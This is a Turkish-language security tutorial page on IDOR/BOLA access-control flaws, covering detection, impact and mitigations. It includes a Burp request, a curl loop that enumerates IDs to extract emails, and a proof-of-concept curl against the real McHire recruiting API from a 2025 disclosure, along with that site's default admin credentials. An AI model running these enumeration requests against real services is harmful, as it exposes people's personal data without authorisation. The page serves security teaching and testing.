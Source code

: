 # IDOR (Güvensiz Doğrudan Nesne Referansı)

{{#include ../banners/hacktricks-training.md}}

IDOR (Güvensiz Doğrudan Nesne Referansı) / Bozuk Nesne Seviyesi Yetkilendirme (BOLA), bir web veya API uç noktasının, **doğrudan** erişim sağlamak için kullanılan ve kullanıcı tarafından kontrol edilebilen bir tanımlayıcıyı ifşa etmesi veya kabul etmesi durumunda ortaya çıkar; **çağrının bu nesneye erişim/değişiklik yapma yetkisini doğrulamadan**. Başarılı bir istismar genellikle diğer kullanıcıların verilerini okuma veya değiştirme gibi yatay veya dikey ayrıcalık yükseltmelerine izin verir ve en kötü durumda, tam hesap ele geçirme veya kitlesel veri sızdırma ile sonuçlanabilir.

---
## 1. Potansiyel IDOR'ları Belirleme

1. **Bir nesneyi referans alan parametreleri** arayın:
* Yol: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`
* Sorgu: `?id=42`, `?invoice=2024-00001`
* Gövde / JSON: `{"user_id": 321, "order_id": 987}`
* Başlıklar / Çerezler: `X-Client-ID: 4711`
2. **Veri okuma veya güncelleme** yapan uç noktaları tercih edin (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Tanımlayıcıların **sıralı veya tahmin edilebilir** olduğuna dikkat edin – eğer ID'niz `64185742` ise, o zaman `64185741` muhtemelen vardır.
4. Ek API'leri açığa çıkarabilecek gizli veya alternatif akışları keşfedin (örneğin, giriş sayfalarındaki *"Paradox takım üyeleri"* bağlantısı).
5. **Kimlik doğrulaması yapılmış düşük ayrıcalıklı bir oturum** kullanın ve yalnızca ID'yi **aynı token/çerez ile değiştirin**. Yetkilendirme hatasının olmaması genellikle IDOR'un bir işareti olarak kabul edilir.

### Hızlı manuel müdahale (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```
### Otomatik numaralandırma (Burp Intruder / curl döngüsü)
```bash
for id in $(seq 64185742 64185700); do
curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-H "Cookie: auth=$TOKEN" \
-d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```
---
## 2. Gerçek Dünya Vaka Çalışması – McHire Chatbot Platformu (2025)

Paradox.ai destekli **McHire** işe alım portalının bir değerlendirmesi sırasında aşağıdaki IDOR keşfedildi:

* Uç Nokta: `PUT /api/lead/cem-xhr`
* Yetkilendirme: **herhangi** bir restoran test hesabı için kullanıcı oturum çerezi
* Gövde parametresi: `{"lead_id": N}` – 8 haneli, **sıralı** sayısal tanımlayıcı

`lead_id` değerini düşürerek, test eden kişi rastgele başvuranların **tam PII** (isim, e-posta, telefon, adres, vardiya tercihleri) bilgilerini ve oturum kaçırmaya izin veren bir tüketici **JWT**'sini elde etti. `1 – 64,185,742` aralığının sayımı yaklaşık **64 milyon** kaydı ortaya çıkardı.

Kanıt-of-Kavram isteği:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-d '{"lead_id":64185741}'
```
Birleştirildiğinde **varsayılan yönetici kimlik bilgileri** (`123456:123456`) test hesabına erişim sağladı ve bu zafiyet, kritik, şirket genelinde bir veri ihlaline yol açtı.

---
## 3. IDOR / BOLA'nın Etkisi
* Yatay yükselme – **diğer kullanıcıların** verilerini okuma/güncelleme/silme.
* Dikey yükselme – düşük yetkili bir kullanıcının yalnızca yöneticiye özel işlevsellik kazanması.
* Tanımlayıcılar ardışık ise kitlesel veri ihlali (örneğin, başvuru kimlikleri, faturalar).
* Diğer kullanıcıların token'larını çalarak veya şifrelerini sıfırlayarak hesap ele geçirme.

---
## 4. Önlemler & En İyi Uygulamalar
1. Her istekte **nesne düzeyinde yetkilendirme** uygulayın (`user_id == session.user`).
2. Otomatik artan kimlikler yerine **dolaylı, tahmin edilemez tanımlayıcılar** (UUIDv4, ULID) tercih edin.
3. Yetkilendirmeyi **sunucu tarafında** gerçekleştirin, asla gizli form alanlarına veya UI kontrollerine güvenmeyin.
4. Merkezi bir ara yazılımda **RBAC / ABAC** kontrolleri uygulayın.
5. ID'lerin sayımını tespit etmek için **oran sınırlama ve günlükleme** ekleyin.
6. Her yeni uç noktayı güvenlik testi yapın (birim, entegrasyon ve DAST).

---
## 5. Araçlar
* **BurpSuite uzantıları**: Authorize, Auto Repeater, Turbo Intruder.
* **OWASP ZAP**: Auth Matrix, Forced Browse.
* **Github projeleri**: `bwapp-idor-scanner`, `Blindy` (toplu IDOR avı).

## Referanslar
* [McHire Chatbot Platform: Varsayılan Kimlik Bilgileri ve IDOR 64M Başvuranın Kişisel Bilgilerini Ortaya Çıkarıyor](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Kırık Erişim Kontrolü](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [Daha Fazla IDOR Nasıl Bulunur – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
{{#include ../banners/hacktricks-training.md}}
